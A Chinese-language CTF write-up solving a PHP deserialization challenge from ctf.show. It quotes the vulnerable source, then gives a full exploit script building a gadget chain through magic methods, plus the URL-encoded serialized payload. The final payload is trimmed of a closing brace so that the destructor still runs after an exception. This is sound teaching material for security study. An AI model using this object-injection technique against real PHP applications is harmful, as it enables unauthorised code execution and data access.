


来自 ctf.show 卷王杯 easy unserialize 题目
0x00 题目
一道PHP反序列化题目，拿到源码之后可以先边看代码边做一下注释，比如反序列化入口一般从 __construct() 和 __destruct() 函数开始（因为这两个是实例化一个类时一定会触发的方法，没有太多条件限制）。
比如这道题，有 __destruct() 和 __construct() 的只有 one 和 third 两个类，其中 third 的构造函数只是做了一下私有变量赋值，没有再调用其他函数的利用价值，因此可以着重看一下 one 类的 __destruct() 函数，从这里入手开始找调用路径。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
| <?php
include("./HappyYear.php");
class one {
public $object;
public function MeMeMe() {
array_walk($this, function($fn, $prev){
if ($fn[0] === "Happy_func" && $prev === "year_parm") {
global $talk;
echo "$talk"."</br>";
global $flag;
echo $flag;
}
});
}
public function __destruct() {
@$this->object->add();
}
public function __toString() {
return $this->object->string;
}
}
class second {
protected $filename;
protected function addMe() {
return "Wow you have sovled".$this->filename;
}
public function __call($func, $args) {
call_user_func([$this, $func."Me"], $args);
}
}
class third {
private $string;
public function __construct($string) {
$this->string = $string;
}
public function __get($name) {
$var = $this->$name;
$var[$name]();
}
}
if (isset($_GET["ctfshow"])) {
$a=unserialize($_GET['ctfshow']);
throw new Exception("高一新生报道");
} else {
highlight_file(__FILE__);
}
|
0x01 EXP
写exp的时候，可以把所有 class 的代码都复制过来，只是函数体内的代码可以注释掉，因为不需要真的去执行，只是为了生成序列化。
两个难点
写exp遇到两个难点：
$var[$string]() 这里，要怎样才能调用到 one.MeMeMe()？
抛出异常会阻止了析构函数的执行，怎样绕过？
解决难点1
对第一个问题百思不得其解，其中尝试过让 $string['string'] = "one::MeMeMe" ，等操作均不行，最终看了writeup才知道，还可以用数组的方式来指定某个对象，也就是：
1
2
3
4
5
6
7
| $One3 = new one();
$string['string'] = [$One3, "MeMeMe"];
$string['string']();
|
此时的完整EXP
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
| <?php
class one {
public $object;
public function MeMeMe() {
echo "[+] Into MeMeMe()";
}
public function __destruct() {
}
public function __toString() {
}
}
class second {
protected $filename;
public function __construct($filename) {
$this->filename = $filename;
}
protected function addMe() {
}
public function __call($func, $args) {
}
}
class third {
private $string;
public function __construct($string) {
$this->string = $string;
}
public function __get($name) {
echo "yes, this";
}
}
$One = new one();
$One2 = new one();
$One3 = new one();
$Second = new second($One2);
$One->object = $Second;
$Third = new third(array("string" => [$One3, "MeMeMe"]));
$One2->object = $Third;
$One3->year_parm = array(0 => "Happy_func");
|
得到序列化结果：
1
2
3
| > php exp.php
O%3A3%3A%22one%22%3A1%3A%7Bs%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A11%3A%22%00%2A%00filename%22%3BO%3A3%3A%22one%22%3A1%3A%7Bs%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BN%3Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7D%7D%7D%7D
|
那么问题来到了第二个难点。。抛出异常无法触发垃圾回收机制，所以不能执行析构函数。

解决难点2
这里应当是绕过垃圾回收机制触发析构函数，具体原理还没搞懂下次再研究，官方wp的方法是，去掉序列化字符串里面结尾的花括号，也就是去掉 %7D，神奇的操作….最终payload：
1
| ?ctfshow=O%3A3%3A%22one%22%3A1%3A%7Bs%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A11%3A%22%00%2A%00filename%22%3BO%3A3%3A%22one%22%3A1%3A%7Bs%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A6%3A%22object%22%3BN%3Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7D%7D%7D
|

关于GC回收可以参考文章：
https://www.evonide.com/breaking-phps-garbage-collection-and-unserialize/